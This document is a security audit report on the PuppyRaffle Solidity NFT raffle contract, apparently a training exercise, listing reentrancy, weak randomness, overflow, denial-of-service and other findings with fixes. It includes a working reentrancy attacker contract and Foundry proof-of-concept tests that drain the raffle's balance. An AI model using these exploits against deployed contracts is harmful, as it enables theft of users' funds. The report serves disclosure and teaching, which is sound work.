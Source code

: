 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="./me.jpeg" alt="Logo">
    <div>
    <h1>Protocol Audit Report</h1>
    <h3>Prepared by: th3hybrid</h3>
    </div>
</div>

</body>
</html>
<!-- Your report starts here! -->

Prepared by: [th3hybrid](https://github.com/th3hybrid/)

Lead Security Researcher: 
- th3hybrid

# Table of Contents
- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)

# Protocol Summary

This project is to enter a raffle to win a cute dog NFT. The protocol should do the following:

1. Call the `enterRaffle` function with the following parameters:
   1. `address[] participants`: A list of addresses that enter. You can use this to enter yourself multiple times, or yourself and a group of your friends.
2. Duplicate addresses are not allowed
3. Users are allowed to get a refund of their ticket & `value` if they call the `refund` function
4. Every X seconds, the raffle will be able to draw a winner and be minted a random puppy
5. The owner of the protocol will set a feeAddress to take a cut of the `value`, and the rest of the funds will be sent to the winner of the puppy.

# Disclaimer

The YOUR_NAME_HERE team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details

**The findings described in this document correspond the following commit hash:**
```
2a47715b30cf11ca82db148704e67652ad679cd8
```

## Scope 

```
./src/
└── PuppyRaffle.sol
```

## Roles

Owner - Deployer of the protocol, has the power to change the wallet address to which fees are sent through the `changeFeeAddress` function.
Player - Participant of the raffle, has the power to enter the raffle with the `enterRaffle` function and refund value through `refund` function.
  
# Executive Summary
## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 3                      |
| Medium   | 4                      |
| Low      | 1                      |
| Gas      | 2                      |
| Info     | 7                      |
| Total    | 17                     |


# Findings

## High

### [H-1] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain raffle balance.

**Description:** The `PuppyRaffle::refund` function does not follow CEI (Checks,Effects,Interactions) and as a result, enables participants to drain the contract balance.

In the `PuppyRaffle::refund` function , we first make an external call to the `msg.sender` address before updating `PuppyRaffle::players` array.

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

  
 @>     payable(msg.sender).sendValue(entranceFee);
 @>     players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

A player who has entered the raffle could have a `fallback/receive` function that keeps calling `PuppyRaffle::refund` function until the contract balance is drained.

**Impact:** All fees paid by raffle entrants could be stolen by the malicious participant. 

**Proof of Concept:**

1. User enters the raffle
2. Attacker sets up a contract with a `receive` function that calls `PuppyRaffle::refund`
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund` from their attack contract,draining the contract balance.

**Proof of Code:**

<details>
<summary>Code</summary>

Place the following into `PuppyRaffleTest.t.sol`

```javascript
function test_reentrancyRefund() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReentrancyAttacker attacker = new ReentrancyAttacker(puppyRaffle);
        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);

        uint256 startingAttackerBalance = address(attacker).balance;
        uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;
        vm.prank(attackUser);
        attacker.attack{value: entranceFee}();
        uint256 endingAttackerBalance = address(attacker).balance;
        uint256 endingPuppyRaffleBalance = address(puppyRaffle).balance;
        
        assertEq(endingAttackerBalance, entranceFee + startingPuppyRaffleBalance);
        console.log("startingAttackerBalance: ", startingAttackerBalance);
        console.log("startingPuppyRaffleBalance: ", startingPuppyRaffleBalance);
        console.log("endingAttackerBalance: ", endingAttackerBalance);
        console.log("endingPuppyRaffleBalance: ", endingPuppyRaffleBalance);
    }
```

And this contract too

```javascript
contract ReentrancyAttacker {
    uint256 attackerIndex;
    uint256 entranceFee;
    PuppyRaffle puppyRaffle;

    constructor (PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    receive() external payable {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
}
```

</details>

**Recommended Mitigation:** To prevent this, we should have the `PuppyRaffle::refund` function update the `players` array before making the external call. Additionally, we should move the event emission up as well.

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
        
+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);
        payable(msg.sender).sendValue(entranceFee);
-       players[playerIndex] = address(0);
-       emit RaffleRefunded(playerAddress);
    }
```

### [H-2] Weak randomness in `PuppyRaffle::selectWinner` allows users to influence or predict the winner and influence or predict the winning puppy

**Description:** Hashing the `msg.sender`, `block.timestamp`, and `block.difficulty` together creates a predictable random number. A predicatable random number is not a good random number, malicious users can manipulate these values or know them ahead of time to choose the winner of the raffle themselves.

*Note:* This additionally means users could front-run this function and call `refund` if they see they are not the winner.

**Impact:** Any user can influence the winner of the raffle, winning the money and selecting the `rarest` puppy. Making the entire raffle worthless if it becomes a gas war as to who wins the raffles.

**Proof of Concept:**

1. Validators can know ahead of time the `block.timestamp` and `block.difficulty` and use that to predict when/how to participate. See the [solidity blog on prevrandao](https://soliditydeveloper.com/prevrandao). `block.difficulty`  was recently replaced with prevrandao.
2. Users can mine/manipulate their `msg.sender` value to result in their address being used to generate the winner.
3. Users can revert their `selectWinner` transaction if they don't like the winner or resulting puppy.

Using on-chain values as randomness seed is a [well-documented attack vector](https://betterprogramming.pub/how-to-generate-truly-random-numbers-in-solidity-and-blockchain-9ced6472dbdf) in the blockchain space.

**Recommended Mitigation:** Consider using a cryptographically provable random number generator such as Chainlink VRF.

### [H-3] Integer overflow of `PuppyRaffle::totalFees` loses fees 

**Description:** In solidity versions prior to `0.8.0` integers were subject to integer overflows.

```javascript
uint64 myVar = type(uint64).max;
//18446744073709551615
myVar = myVar + 1
//myVar will be 0
```

**Impact:** In `PuppyRaffle::selectWinner`, `totalFees` are accumulated for the `feeAddress` to collect later in `PuppyRaffle::withdrawFees`. However, if the `totalFees` variable overflows, the `feeAddress` may not collect the correct amount of fees, leaving fees permanently stuck in the contract

**Proof of Concept:**
1. We conclude a raffle of 4 players
2. we then have 89 players enter a new raffle, and conclude the raffle
3. `totalFees` will be:

```javascript
totalFees = totalFees + uint64(fee);
// substituted
totalFees = 800000000000000000 + 17800000000000000000;
// due to overflow, the following is now the case
totalFees = 153255926290448384;
```

4. you will not be able to withdraw, due to the line in `PuppyRaffle::withdrawFees`:

```javascript
require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

Although you could use `selfdestruct` to send ETH to this contract in order to match and withdraw the fees, this is clearly not the intended design of the protocol. At some point, there will be too much `balance` in the contract that the above will be impossible to meet.

<details>
<summary>Proof of Code</summary>

Place the following into `PuppyRaffleTest.t.sol`

```javascript
    function test_canOverflowFees() public playersEntered {
        console.log("Fees: ", uint256(puppyRaffle.totalFees()));
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        address[] memory players = new address[](89);
        for (uint256 i = 0; i < 89; i++) {
            players[i] = address(uint160(i + 5));
        }
        puppyRaffle.enterRaffle{value: entranceFee * 89}(players);

        uint256 expectedFees = (93 * entranceFee * 20) / 100;

        puppyRaffle.selectWinner();
        uint256 actualFees = puppyRaffle.totalFees();
        console.log("Expected Fees: ", expectedFees);
        console.log("Actual Fees: ", actualFees);
        assert(actualFees < expectedFees);
        
        // We are also unable to withdraw any fees because of the require check
        vm.prank(puppyRaffle.feeAddress());
        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
    }
```

</details>

**Recommended Mitigation:** There are a few recommended mitigations here.

1. Use a newer version of Solidity that does not allow integer overflows by default.

```diff 
- pragma solidity ^0.7.6;
+ pragma solidity ^0.8.18;
```

Alternatively, if you want to use an older version of Solidity, you can use a library like OpenZeppelin's `SafeMath` to prevent integer overflows. 

2. Use a `uint256` instead of a `uint64` for `totalFees`. 

```diff
- uint64 public totalFees = 0;
+ uint256 public totalFees = 0;
```

3. Remove the balance check in `PuppyRaffle::withdrawFees` 

```diff
- require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

There are more attack vectors with that final require, so we recommend removing it regardless.

## Medium

### [M-1] Unbounded for loop to check for duplicates in `PuppyRaffle::enterRaffle` can lead to denial of service (DoS)attack

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates.However, the longer the `PuppyRaffle::players` array is, the more checkd a new player will have to make. This means the gas costs for players who enter right when the raffle starts will be dramatically lower tha those who enter later. Every additional address in the `players` array, is an addtional check the loop will ahve to make.

```javascript
//@audit DoS Attack
@>    for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```

**Impact:** The gas costs for raffle entrance will greatly increase as more players enter the raffle. Discouraging later users from entering, and causing a rush at the start of a raffle to be one of the first entrants in the queue.

An attacker might make the `PuppyRaffle::players` array so big, that no one else enters,guaranteeing themselves the win.

**Proof of code:**

If we have 2 sets of 100 players enter, the gas cost will be as such:
- 1st 100 players: ~6252047 gas
- 2nd 100 players: ~18068137 gas

This is more than 3x more expensive for the second 100 players.

<details>
<summary>PoC</summary>
Place the following test into `PuppyRaffleTest.t.sol`,

```javascript
    function test_denialOfService() public {
        vm.txGasPrice(1);

        uint256 playerNum = 100;
        address[] memory players = new address[](playerNum);
        for (uint256 i = 0; i < playerNum; i++) {
            players[i] = address(uint160(i));
        }
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playerNum}(players);
        uint256 gasEnd =gasleft();
        uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas cost of the first 100 players: ", gasUsedFirst);

        //second 100 players
        address[] memory playersTwo = new address[](playerNum);
        for (uint256 i = 0; i < playerNum; i++) {
            playersTwo[i] = address(uint160(i + playerNum));
        }
        uint256 gasStartTwo = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playerNum}(playersTwo);
        uint256 gasEndTwo =gasleft();
        uint256 gasUsedSecond = (gasStartTwo - gasEndTwo) * tx.gasprice;
        console.log("Gas cost of the second 100 players: ", gasUsedSecond);
        assert(gasUsedSecond > gasUsedFirst);
    }
```

</details>

**Recommended Mitigation:** There are a few recommendations.

1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address.
2. Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a user has already entered.

```diff
+    mapping(address => uint256) public addressToRaffleId;
+    uint256 public raffleId = 0;
    .
    .
    .
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
+            addressToRaffleId[newPlayers[i]] = raffleId;            
        }

-        // Check for duplicates
+       // Check for duplicates only from the new players
+       for (uint256 i = 0; i < newPlayers.length; i++) {
+          require(addressToRaffleId[newPlayers[i]] != raffleId, "PuppyRaffle: Duplicate player");
+       }    
-        for (uint256 i = 0; i < players.length; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
-                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-            }
-        }
        emit RaffleEnter(newPlayers);
    }
.
.
.
    function selectWinner() external {
+       raffleId = raffleId + 1;
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
```

3. Alternatively, you could use **[OpenZeppelin's EnumerableSet library](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet)**.

### [M-2] Balance check on `PuppyRaffle::withdrawFees` enables griefers to selfdestruct a contract to send ETH to the raffle, blocking withdrawals

**Description:** The `PuppyRaffle::withdrawFees` function checks the `totalFees` equals the ETH balance of the contract (`address(this).balance`). Since this contract doesn't have a `payable` fallback or `receive` function, you'd think this wouldn't be possible, but a user could `selfdesctruct` a contract with ETH in it and force funds to the `PuppyRaffle` contract, breaking this check. 

```javascript
    function withdrawFees() external {
@>      require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;
        (bool success,) = feeAddress.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
    }
```

**Impact:** This would prevent the `feeAddress` from withdrawing fees. A malicious user could see a `withdrawFee` transaction in the mempool, front-run it, and block the withdrawal by sending fees. 

**Proof of Concept:**

1. `PuppyRaffle` has 800 wei in it's balance, and 800 totalFees.
2. Malicious user sends 1 wei via a `selfdestruct`
3. `feeAddress` is no longer able to withdraw funds

**Recommended Mitigation:** Remove the balance check on the `PuppyRaffle::withdrawFees` function. 

```diff
    function withdrawFees() external {
-       require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;
        (bool success,) = feeAddress.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
    }
```

### [M-3] Unsafe cast of `PuppyRaffle::fee` loses fees

**Description:** In `PuppyRaffle::selectWinner` there is a type cast of a `uint256` to a `uint64`. This is an unsafe cast, and if the `uint256` is larger than `type(uint64).max`, the value will be truncated. 

```javascript
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length > 0, "PuppyRaffle: No players in raffle");

        uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 fee = totalFees / 10;
        uint256 winnings = address(this).balance - fee;
@>      totalFees = totalFees + uint64(fee);
        players = new address[](0);
        emit RaffleWinner(winner, winnings);
    }
```

The max value of a `uint64` is `18446744073709551615`. In terms of ETH, this is only ~`18` ETH. Meaning, if more than 18ETH of fees are collected, the `fee` casting will truncate the value. 

**Impact:** This means the `feeAddress` will not collect the correct amount of fees, leaving fees permanently stuck in the contract.

**Proof of Concept:** 

1. A raffle proceeds with a little more than 18 ETH worth of fees collected
2. The line that casts the `fee` as a `uint64` hits
3. `totalFees` is incorrectly updated with a lower amount

You can replicate this in foundry's chisel by running the following:

```javascript
uint256 max = type(uint64).max
uint256 fee = max + 1
uint64(fee)
// prints 0
```

**Recommended Mitigation:** Set `PuppyRaffle::totalFees` to a `uint256` instead of a `uint64`, and remove the casting. There is a comment which says:

```javascript
// We do some storage packing to save gas
```
But the potential gas saved isn't worth it if we have to recast and this bug exists. 

```diff
-   uint64 public totalFees = 0;
+   uint256 public totalFees = 0;
.
.
.
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
        uint256 winnerIndex =
            uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
-       totalFees = totalFees + uint64(fee);
+       totalFees = totalFees + fee;
```

### [M-4] Smart contract wallets raffle winners without a `receive` or a `fallback` function will block the start of a new contest

**Description:** The `PuppyRaffle::selectWinner` function is responsible for resetting the lottery. However, if the winner is a smart contract wallets that rejects payment, the lottery would not be able to restart.

Users could easily call the `selectWinner` function again and non-wallet entrants could enter, but it could cost a lot due to the duplicate check and a lottery reset could get very challenging.

**Impact:** The `PuppyRaffle::selectWinner` function could revert many times, making a lottery reset difficult.

Also, true winners would not get paid out and someone else could take their money.

**Proof of Concept:**
1. 10 smart contract wallets enter the lotter without a fallback or receive function.
2. The lottery ends
3. The `selectWinner` function wouldn't work, even though the lottery is over!

**Recommended Mitigation:** There are a few options to mitigate this issue.

1. Do not allow smart contract wallets entrants (not recommended)
2. Create a mapping of addresses -> payout amounts so winners can pull their funds out themselves with a new `claimPrize` function, putting the owness on the winner to claim their prize. (Recommended)

>Pull over push


## Low

### [L-1] `PuppyRaffle::getActivePlayerIndex` returns a 0 for non-existent players and for players at index 0, causing a player at index 0 to incorrectly think they have not entered the raffle

**Description:** If a player is in the `PuppyRaffle::players` array at index 0, this will return 0, but according to the natspec, it will also return 0 if the player is not in the array.

```javascript
function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }

@>      return 0;
    }
```

**Impact:** A player at index 0 may incorrectly think they have not entered the raffle, and attempt to enter the raffle again, which will fail,hence, wasting gas.

**Proof of Concept:**

1. User enters the raffle, they are the first entrant
2. `PuppyRaffle::getActivePlayerIndex` returns 0
3. User thinks they have not entered correctly due to the function documentation

**Proof of Code:**

<details>
<summary>Code</summary>

Place the following into `PuppyRaffleTest.t.sol`

```javascript
function testGetActivePlayerIndexEdgeCase() public {
        address[] memory players = new address[](2);
        players[0] = playerOne;
        players[1] = playerTwo;
        puppyRaffle.enterRaffle{value: entranceFee * 2}(players);

        assertEq(puppyRaffle.getActivePlayerIndex(playerOne), 0);
        assertEq(puppyRaffle.getActivePlayerIndex(address(3)), 0);
        console.log("playerOne Index:", puppyRaffle.getActivePlayerIndex(playerOne));
        console.log("Inactive player Index:", puppyRaffle.getActivePlayerIndex(address(3)));
    }
```

</details>

**Recommended Mitigation:** The easiest recommendation is to revert if the player is not in the array instad of returning 0.

You could also reserve the 0th position for any competition, but a better solution might be to return an `int256` where the function returns -1 if the player is not active;

## Gas

### [G-1] Unchanged state variable should be declared as immutable or constant.

**Description:** Reading from storage is much more expensive than reading from a constant or immutable variable.
 
Instances:
- `PuppyRaffle::raffleDuration` should be `immutable`
- `PuppyRaffle::commonImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`
- `PuppyRaffle::legendaryImageUri` should be `constant`

### [G-2] Storage variables in a loop should be cached.

Everytime you call `players.length` you read from storage, as opposed to memory which is more gas efficient.

```diff
+   uint256 playersLength = players.length;
-   for (uint256 i = 0; i < players.length - 1; i++) {
+   for (uint256 i = 0; i < playersLength - 1; i++) {
-      for (uint256 j = i + 1; j < players.length; j++) {
+      for (uint256 j = i + 1; j < playersLength; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```

**Recommendation:**
Cache the lengths of storage arrays if they are used and not modified in for loops

## Informational / Non-Critical 

### [I-1] Solidity pragma should be specific, not wide

Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.8.0;`, use `pragma solidity 0.8.0;`

<details><summary>1 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 2](src/PuppyRaffle.sol#L2)

	```solidity
	pragma solidity ^0.7.6; //q why less than v8? ownable is set by default
	```

</details>

### [I-2] Using an outdated version of solidity is not recommended.

solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex pragma statement.

**Recommendation:**
Deploy with a recent version of Solidity (at least 0.8.0) with no known severe issues.

Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

Please see [slither] (https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity) documentation for more information.

### [I-3] Missing checks for `address(0)` when assigning values to address state variables

Check for `address(0)` when assigning values to address state variables.

<details><summary>2 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 66](src/PuppyRaffle.sol#L66)

    ```solidity
            feeAddress = _feeAddress;
    ```

- Found in src/PuppyRaffle.sol [Line: 204](src/PuppyRaffle.sol#L204)

    ```solidity
            feeAddress = newFeeAddress;
    ```

</details>

### [I-4] `PuppyRaffle::selectWinner` should follow CEI, which is a best practice

It's best to keep code clean and follow CEI (Checks, Effects, Interactions).

```diff
-       (bool success,) = winner.call{value: prizePool}("");
-       require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
+       (bool success,) = winner.call{value: prizePool}("");
+       require(success, "PuppyRaffle: Failed to send prize pool to winner");
```

### [I-5] Use of "magic" numbers is dicouraged

It can be confusing to see number literals in a codebase, and it's much more readable if the numbes are given a name.

Examples:
```javascript
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
```
Instead, you could use:

```javascript
    uint256 public constant PRIZE_POOL_PERCENTAGE = 80;
    uint256 public constant FEE_PERCENTAGE = 20;
    uint256 public constant PRIZE_POOL_PRECISION = 100;
```

### [I-6] State changes are missing events

### [I-7] `PuppyRaffle::_isActivePlayer` is never used and should be removed 
